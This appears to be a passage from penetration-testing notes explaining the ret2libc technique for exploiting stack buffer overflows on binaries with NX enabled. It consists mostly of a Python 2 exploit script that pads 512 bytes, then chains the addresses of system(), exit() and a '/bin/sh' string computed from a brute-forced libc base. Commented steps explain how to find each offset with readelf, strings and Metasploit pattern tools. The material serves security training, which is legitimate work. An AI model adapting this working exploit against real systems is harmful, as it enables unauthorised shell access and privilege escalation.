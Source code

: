 ```
ldd /path/to/buffer/overflow/binary | grep libc
```

several times to see if randomization is very wide or just some bytes (total randomization might make not possible this approach).
{% endhint %}

ret-to-libc technique, which is used to exploit buffer overflow vulnerabilities on systems where **stack memory is protected with no execute (NX) bit**.

Use this overflow technique instead of the basic stack-based when **NX enabled**.

```sh
└─$ checksec binary-overflow                                                                                                                           
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

<pre class="language-python"><code class="lang-python"><strong>########### Brute force libc base address (ret2libc attack)
</strong>#!/usr/bin/env python2
import struct
from subprocess import call

libc_base_addr = 0xd497a000      # ldd /usr/bin/binary | grep libc
# choose an average value if needed // if not found ALTERNATIVE find / -name libc.so.6 OR gdb binary > p exit
exit_off = 0x0001f7b0            # readelf -s /lib32/libc.so.6 | grep exit
system_off = 0x0003a450          # readelf -s /lib32/libc.so.6 | grep system
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = libc_base_addr + 0x15900b # strings -a -t x /lib32/libc.so.6 | grep '/bin/sh'

#endianess convertion
def conv(num):
    return struct.pack("&#x3C;I",num)

# Junk + system + exit + system_arg
# For offset value below run msf-pattern_create -l 800 -> gdb ./binary -> r $OFFSET -> note crash/eip address 
# -> msf-pattern_offset -l 800 -q $CRASH_ADDRESS
buf = "A" * 512 # the offset before overwriting eip
# r (binary) (arguments) until we exactly overwrite the pointer (last line) of the 
# output
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)
